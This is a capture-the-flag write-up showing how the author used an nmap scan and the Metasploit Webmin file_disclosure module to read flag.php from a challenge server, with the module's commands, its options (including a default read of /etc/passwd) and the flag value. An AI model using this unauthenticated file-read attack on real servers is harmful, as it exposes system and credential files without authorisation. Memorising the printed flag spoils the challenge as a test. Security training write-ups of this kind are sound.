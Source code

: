 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.

> **Goal:** Find the flag for 2000 Points.


## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

  Name     Current Setting    Required  Description
  ----     ---------------    --------  -----------
  DIR      /unauthenticated   yes       Webmin directory path
  Proxies                     no        Use a proxy chain
  RHOST    54.221.X.X         yes       The target address
  RPATH    /etc/passwd        yes       The file to download
  RPORT    10000              yes       The target port
  VHOST                       no        HTTP server virtual host

msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
```

Boom! We have a flag!

**NCL-OSSL-1337**
